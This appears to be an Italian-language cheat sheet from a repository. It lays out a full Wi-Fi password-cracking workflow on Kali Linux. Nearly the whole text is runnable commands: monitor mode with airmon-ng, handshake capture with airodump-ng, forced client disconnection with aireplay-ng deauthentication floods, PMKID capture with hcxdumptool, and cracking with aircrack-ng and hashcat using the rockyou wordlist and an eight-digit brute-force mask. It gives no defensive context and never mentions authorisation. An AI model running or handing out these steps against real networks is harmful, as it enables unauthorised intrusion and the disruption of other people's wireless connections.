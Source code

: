 # Wi-Fi 
Visualizza scheda di rete 
```
ifconfig
```
oppure
```
ip a
```
avvia scheda di rete in monitor mode
```
sudo airmon-ng check kill
```

```
sudo airmon-ng start wlan0
```
esempio:
erpressa@kali:~# sudo airmon-ng start wlan0
avvia airodump-ng 
```
sudo airodump-ng wlan0mon 
```
copiare bssid e station
premi spazio oppure ctrl + c per terminare 
```
sudo airodump-ng --bssid FF:FF:FF:FF:FF:FF -c 1 -w /home/kali/handshake.cap wlan0mon
```
esempio
```
sudo airodump-ng --<BSSID> -c <CANALE> -w <PERCORSO-FILE> <INTERFACCIA> 
```

scollegare clients a=bssid c=clients
```
sudo aireplay-ng -0 10 -a FF:FF:FF:FF:FF:FF -c FF:FF:FF:FF:FF:FF wlan0mon
```
oppure 
```
sudo aireplay-ng --deauth 1000 -a FF:FF:FF:FF:FF:FF -c FF:FF:FF:FF:FF:FF wlan0mon
```
cracking con aircrack-ng 
```

sudo aircrack-ng file.cap -w /home/kali/rockyou.txt
```
hcxdumptool
```
sudo hcxdumptool -i wlan1 -w frames_to_recover_the_psk.pcapng -F --rds=1
```

![Screenshot_20250314_020018](https://github.com/user-attachments/assets/a105cd91-522b-4488-8dd4-29b5c7b6754a)

```
hcxpcapngtool -o hash.hc22000 -E essidlist frames_to_recover_the_psk.pcapng
```
![Screenshot_20250314_015237](https://github.com/user-attachments/assets/eeed436d-d573-4c33-986f-15ea31dcf081)


```
sudo nano hash.hc22000
```

```
hashcat -m 22000 -a 0 hash.hc22000 rockyou.txt
```
Bruteforce 8 numeri

```
hashcat -m 22000 -a 3 hash.hc22000 ?d?d?d?d?d?d?d?d
```









































